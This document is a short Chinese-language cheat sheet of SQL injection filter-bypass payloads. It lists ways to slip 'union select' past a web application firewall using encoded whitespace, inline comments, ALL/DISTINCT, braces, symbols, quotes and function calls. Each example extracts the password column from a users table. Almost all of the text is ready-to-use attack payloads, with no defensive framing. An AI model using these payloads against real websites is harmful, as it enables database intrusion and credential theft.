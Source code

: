



## 位置三

(1) 空白符

```
%09,%0a,%0b,%0c,%0d,%20

union select %09 1,password,3 from users %23
```

(2)注释

```
/*!*/ /**/

union select /**/ 1,password,3 from users %23
```

(3) ALL | DISTINCT | DISTINCTROW

```
union select ALL  1,password,3 from users %23
```

(4) {} ()

```
union select{x 1},password,3 from users %23

union select(1),password,3 from users %23
```

(5)符号

```
+ - @ ~ !
union select+1,password,3 from users %23
" ' 单双引号
union select""a1,password,3 from users %23
union select+1,password,3 from users %23
```

组合

```
+@ +'' -@ -'' ~@ ~'' ~"" !@ !"" @$ @. \N$
...
union select+@a1,password,3 from users %23

union select\N$a1,password,3 from users %23
```

(6)函数

```
union select  MD5('a') |1,2,database() from users--+

union select reverse('xx'),password,3 from users %23

union select ST_X(Point(1, 2))a,2,database() from users--+
```
